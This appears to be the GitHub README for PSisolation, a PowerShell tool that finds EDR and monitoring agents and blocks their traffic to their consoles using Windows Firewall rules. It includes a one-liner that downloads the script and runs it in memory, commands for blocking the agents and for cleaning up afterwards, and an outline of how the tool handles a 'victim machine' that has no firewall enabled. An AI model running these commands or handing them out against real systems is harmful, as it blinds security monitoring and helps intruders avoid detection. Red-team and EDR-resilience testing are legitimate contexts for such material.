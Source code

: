 # PSisolation

## Overview
PS-Isolation is a specialized tool designed to prevent EDR (Endpoint Detection and Response) and monitoring processes from communicating with their consoles. By leveraging Windows Defender Firewall rules and PowerShell automation, this script dynamically identifies and blocks network traffic for specific monitoring agents and processes. 

I also wrote this [article](https://blog.y00ga.lol/PERSO/PUBLISH/Article+perso/PSisolation%2C+in+Cyberspace+No+One+Can+Hear+You+Scream#New-NetFirewallRule) if you want to learn a bit more about it

## Key Features
- Automated Detection: Identifies EDR and monitoring tools running on the system based on predefined and customizable keywords.
- Dynamic Firewall Rules: Implements outbound traffic filtering for detected processes, preventing telemetry from reaching monitoring consoles.
- Customizable rule : Choose to block a specific processes.
- Stealth : Operates entirely in PowerShell, which you can import in memory without touching disk, ensuring minimal system footprint.
- Simple Cleanup: Quickly revert all custom rules and restore normal operations with a single command.

## Use Cases
- Isolate specific processes or tools to prevent them from reporting telemetry during engagements.
- Test EDR visibility and response.
- Enumerate potential exclusions on system without triggering alerts

## Important Notes
- Educational Purposes Only: This tool is intended for research, penetration testing engagements, and educational purposes        
- Requires Administrative Privileges to create rules

## Getting Started

- Import the script in memory

````
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/y00ga-sec/PSisolation/refs/heads/main/PSisolation.ps1')
````

- Block outgoing traffic by running directly

````
Block-MonitoringProc
````
https://github.com/user-attachments/assets/a8b62fc7-5132-477b-9489-c569c41bcc78

- or a specific process you want with : 

````
Block-SpecificProcessTraffic -ProcessPath <executablefull path>
````

- When you're done, run this to remove all rules created by the tool :

````
Unblock-AllFilters
````

https://github.com/user-attachments/assets/a647de1e-9314-4d73-886c-ba8f4cbb7356

------
# But what if the target machine does not use Windows Defender Firewall ?

Well the script got you covered ! Logic is the following :

- If PSisolation detects the victim machine has Windows Firewall enabled --> Simple retrieves EDR services name and associated executable path and create outgoing blocking firewall rules
- Otherwise, PSisolation will :
   - Backup every rule on the machine in a temporary file
   - Create outgoing blocking firewall rules for EDRs
   - Enable Windows Defender Firewall so that the PSisolation blocking rules take effect and disable every rule to avoid blocking production traffic
   - Once you're done and run `Unblock-AllFilters`, the script will restore every rule/rule state from the temporary backup file (which will also delete PSisolation blocking rules)
   - Delete rules backup temporary file
   - Restore Windows Defender Firewall to its previous state 
